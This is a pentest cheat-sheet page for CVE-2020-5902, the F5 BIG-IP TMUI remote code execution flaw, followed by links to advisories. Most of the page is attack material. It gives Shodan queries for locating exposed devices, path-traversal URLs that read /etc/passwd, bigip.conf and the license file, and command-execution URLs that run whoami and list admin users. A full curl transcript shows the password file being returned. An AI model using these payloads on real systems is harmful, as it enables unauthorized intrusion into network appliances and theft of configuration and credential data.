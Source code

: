 ```yaml
---
title : "CVE-2020-5902"
# pre : ' '
description : "In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages."
date : 2020-07-06T10:28:07+02:00
# hidden : true
# draft : true
weight : 240
# tags : ['']
---
```


---

## F5 BIG-IP TMUI RCE

### Shodan search

```plain
title:"Big-IP&reg;" org:"Organization Name"
http.title:"BIG-IP&reg;- Redirect" org:"Organization Name"
http.favicon.hash:-335242539 "3992" org:"Organization Name"
```

### Metasploit module

```plain
modules/exploits/linux/http/f5_bigip_tmui_rce.rb
```

### Validate interface accessible

You need to get a 200OK on the following request.

```plain
curl -v -k  'https://{host}/tmui/login.jsp'
```

### Check (Local File Inclusion)

Interesting files:

```plain
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://{host}/tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
https://{host}/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=jaffa
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```

### RCE

```plain
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami
```

```plain
curl -v -k  'https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```

### Example RCE

```plain
$ curl -v -k 'https://10.10.10.10/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
*   Trying 10.10.10.10:443...
* TCP_NODELAY set
* Connected to 10.10.10.10 (10.10.10.10) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*   CAfile: /etc/ssl/certs/ca-certificates.crt
  CApath: /etc/ssl/certs
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES256-GCM-SHA384
* ALPN, server did not agree to a protocol
[...]
> GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
> Host: 10.10.10.10
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 06 Jul 2020 09:08:33 GMT
< X-Frame-Options: SAMEORIGIN
< Strict-Transport-Security: max-age=16070400; includeSubDomains
< Set-Cookie: JSESSIONID=E3418E061E43DC67AC2E9D59A4E42FC2; Path=/tmui; Secure; HttpOnly
< Content-Type: text/html;charset=ISO-8859-1
< Content-Length: 7630
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
< Vary: Accept-Encoding
<

{"output":"root:x:0:0:root:\/root:\/bin\/bash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\nuucp:x:10:14:uucp:\/var\/spool\/uucp:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/sbin\/nologin\nnobody:x:99:99:Nobody:\/:\/sbin\/nologin\ntmshnobody:x:32765:32765:tmshnobody:\/:\/sbin\/nologin\nadmin:x:0:500:Admin User:\/home\/admin:[...]
```

## URL List

- [Nnd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2020-5902)
- [Support.f5.com](https://support.f5.com/csp/article/K52145254)
- [Cve.mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5902)
- [Tenable.com](https://www.tenable.com/cve/CVE-2020-5902)
